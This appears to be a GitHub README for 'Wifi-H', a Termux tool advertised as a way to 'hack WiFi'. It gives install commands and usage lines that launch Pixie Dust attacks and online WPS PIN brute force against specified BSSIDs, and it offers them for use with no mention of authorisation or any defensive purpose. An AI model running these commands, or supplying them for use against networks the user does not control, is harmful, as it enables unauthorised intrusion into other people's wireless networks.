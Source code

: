 ## Wifi-H
### Hack WIfi Using Termux! (Root Requires)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/Devil-King-Monayem/Wifi-H
$ cd Wifi-H
$ chmod +x WiFi.py
$ sudo python WiFi.py --help
```

#### Example : `sudo python WiFi.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python WiFi.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python WiFi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python WiFi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

